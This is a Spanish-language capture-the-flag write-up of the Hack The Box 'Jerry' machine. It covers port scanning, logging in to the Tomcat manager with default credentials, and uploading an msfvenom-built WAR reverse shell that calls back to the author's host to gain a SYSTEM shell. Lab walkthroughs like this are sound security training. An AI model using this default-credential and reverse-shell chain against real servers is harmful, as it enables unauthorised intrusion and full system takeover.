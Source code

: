 +++
author = "Andrés Del Cerro"
title = "Hack The Box: Jerry Writeup | Easy"
date = "2024-07-27"
description = ""
tags = [
    "HackTheBox",
    "Jerry",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "Abusing Tomcat",
    "Information Leakage",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
]

+++

# Hack The Box: Jerry Writeup
Bienvenidos a mi writeup detallado de la máquina fácil **"Jerry"** de Hack The Box. En este writeup vamos a resolver la máquina mas fácil de toda la plataforma probablemente. ¡Vamos a ello!

# TCP Enumeration
```shell
$ rustscan -a 10.129.136.9 --ulimit 5000 -g
10.129.136.9 -> [8080]
```

# UDP Enumeration
No encontramos nada por UDP
```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.136.9 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 18:03 CEST
Nmap scan report for 10.129.136.9
Host is up.
All 1500 scanned ports on 10.129.136.9 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
```

Detectamos que por el puerto `8080/TCP` hay un servicio web, y es un Tomcat.
```shell
$ nmap -p8080 -sCV 10.129.136.9 -Pn -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 18:02 CEST
Nmap scan report for 10.129.136.9
Host is up (0.038s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.19 seconds
```

Dirigiendonos a una ruta típica en los Tomcats..
`http://10.129.136.9:8080/manager` intentamos poner admin:admin de credenciales y nos devuelve un código de estado 403, acceso denegado.

Nos devuelve también las típicas credenciales por defecto de tomcat.
```XML
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```

Y probando estas credenciales...
![Write-up Image](images/Screenshot_1.png)

Ahora simplemente quedaría subir un archivo `war` malicioso ya que tiene pinta que tenemos privilegios para subirlo.

Con `msfvenom` creamos el `war` malicioso.
```shell
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.71 LPORT=443 -f war > reverse.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
```

Lo subimos al tomcat..
![Write-up Image](images/Screenshot_2.png)

Nos ponemos en escucha por el puerto 443.
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Ahora visitamos la aplicación maliciosa desplegada..
![Write-up Image](images/Screenshot_3.png)

Y hemos ganado consola... ¿como `nt authority\system`?

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.136.9] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Vemos un directorio flags..
```cmd
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
```

Y un archivo llamado `2 for the price of 1.txt`

Sin duda esta ha sido la máquina mas fácil que he resuelto en mi vida...
```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854...

root.txt
04a8b36e1545a4...
```